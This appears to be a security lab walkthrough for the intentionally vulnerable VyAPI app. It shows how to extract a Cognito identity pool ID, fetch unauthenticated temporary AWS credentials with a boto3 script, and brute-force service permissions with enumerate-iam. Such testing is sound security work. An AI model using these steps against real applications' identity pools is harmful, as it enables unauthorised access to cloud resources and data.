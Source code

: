 # Amazon Cognito Authorization Issue

- [Amazon Cognito Authorization Issue](#amazon-cognito-authorization-issue)
  - [1. Setup AWS CLI](#1-setup-aws-cli)
  - [2. Create Test Scripts](#2-create-test-scripts)
    - [Boto3: Get Pool Credentials](#boto3-get-pool-credentials)
    - [Enumerate IAM](#enumerate-iam)
  - [3. Find a Cognito Identity Pool ID](#3-find-a-cognito-identity-pool-id)
  - [4. Fetch Temporary AWS Credentials](#4-fetch-temporary-aws-credentials)
  - [5. Test for Unauthenticated Access to Sensitive AWS Services](#5-test-for-unauthenticated-access-to-sensitive-aws-services)
  - [References](#references)

## 1. Setup AWS CLI

1. Install AWS CLI
2. Configure AWS CLI

        $ aws configure

## 2. Create Test Scripts

### Boto3: Get Pool Credentials

1. Create a virtual environment for **Python 2.7**

        $ virtualenv -p /usr/bin/python2.7 venv

2. Activate the virtual environment

        $ source venv/bin/activate

3. Install **Boto3** package

        (venv) $ pip install boto3

4. Create a file `get_pool_credentials.py` with following content

    ```python
    import boto3
    import sys

    def get_pool_credentials(region, identity_pool):
        client = boto3.client('cognito-identity', region_name=region)

        _id = client.get_id(IdentityPoolId=identity_pool)
        _id = _id['IdentityId']

        credentials = client.get_credentials_for_identity(IdentityId=_id)
        access_key = credentials['Credentials']['AccessKeyId']
        secret_key = credentials['Credentials']['SecretKey']
        session_token = credentials['Credentials']['SessionToken']
        identity_id = credentials['IdentityId']

        print ("Access Key: " + access_key + "\n")
        print ("Secret Key: " + secret_key + "\n") 
        print ("Session Token: " + session_token + "\n")
        print ("Identity ID: " + identity_id + "\n")

    get_pool_credentials(sys.argv[1], sys.argv[2]);
    ```

### Enumerate IAM

1. Clone the `enumerate-iam` GitHub repository and setup the test environment

    ```bash
    (venv) $ git clone git@github.com:andresriancho/enumerate-iam.git
    (venv) $ cd enumerate-iam/
    (venv) $ pip install -r requirements.txt
    ```

2. Test if the script works fine

        (venv) $ python enumerate-iam.py

    ![Enumerate IAM script](image/2-enumerate-iam.png)

## 3. Find a Cognito Identity Pool ID

1. In the unzipped VyAPI bundle, look for configuration files

        $ find ./ -name "*config*"

    ![Search for configuration files](image/1-search-config-files.png)

2. Check the contents of `awsconfiguration.json` file
3. Copy the value of `PoolId` parameter from the configuration file. 
   
    *Note:* We are looking for a string which is similar to
   
        us-east-1:f0e6168e-4865-4890-97e5-489cd6106g83

## 4. Fetch Temporary AWS Credentials

Use **Boto3** python script to fetch the temporary AWS credentials

    (venv) $ python get_pool_credentials.py "<REGION_ID>" "<COGNITO_IDENTITY_POOL_ID>"

![Fetch temporary AWS credentials](image/3-get-pool-credentials.png)

## 5. Test for Unauthenticated Access to Sensitive AWS Services

1. Execute the `enumerate-iam.py` python script 

    ```bash
    (venv) $ cd enumerate-iam
    (venv) $ python enumerate-iam.py --access-key "<ACCESS_KEY>" --secret-key "<SECRET_KEY>" --session-token "<SESSION_TOKEN>" --region "<REGION_ID>"
    ```

2. Check if any of the listed AWS services are sensitive

    ![Brute force AWS service access](image/4-brute-force-aws-service-access.png)

3. All of the listed AWS services can be accessed by unauthenticated users. If a sensitive AWS service is listed, then this should be reported as a security issue.


## References

* [https://docs.python-guide.org/dev/virtualenvs/](https://docs.python-guide.org/dev/virtualenvs/)
* [Internet-Scale analysis of AWS Cognito Security](https://andresriancho.com/internet-scale-analysis-of-aws-cognito-security/)
* [https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/cognito-identity.html](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/cognito-identity.html)
* [https://aws.amazon.com/cognito/](https://aws.amazon.com/cognito/)